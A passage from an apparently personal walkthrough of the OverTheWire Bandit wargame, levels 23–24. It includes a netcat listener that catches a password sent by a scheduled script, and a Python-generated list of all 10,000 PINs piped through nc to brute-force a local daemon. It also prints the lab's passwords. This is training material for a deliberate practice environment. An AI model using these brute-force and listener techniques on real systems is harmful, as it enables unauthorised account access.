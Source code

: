 Then, after the minute turns, you should see your other terminal update with:

```bash
bandit23@bandit:~$ nc -lvvp 8899
Listening on 0.0.0.0 8899
Connection received on localhost 37922
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

And thus you get the password.

---

## Level 24

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

The prompt is:

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
> You do not need to create new connections each time

Well, that seems relatively straightforward.

```bash
bandit24@bandit:~$ cd $(mktemp -d)
bandit24@bandit:/tmp/tmp.92incHlbeQ$ cat solve24.py
```

I kinda wish that Ruby was installed, but I'll do my solution in Python:

```python
# solve24.py
pass_24 = "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar"
with open('input.txt', 'w') as f:
    for i in reversed(range(10000)):
        f.write(pass_24)
        f.write(' ')
        f.write(str(i).zfill(4))
        f.write('\n')
```

```bash
bandit24@bandit:/tmp/tmp.92incHlbeQ$ python3 solve24.py
bandit24@bandit:/tmp/tmp.92incHlbeQ$ head input.txt
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9999
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9998
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9997
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9996
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9995
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9994
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9993
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9992
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9991
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9990
bandit24@bandit:/tmp/tmp.92incHlbeQ$ cat script.sh
cat input.txt | nc localhost 30002 | grep -v Wrong | tee -a output.txt
bandit24@bandit:/tmp/tmp.92incHlbeQ$ time bash script.sh
I am the pincode checker for user bandit25. Please enter the password for user
 bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```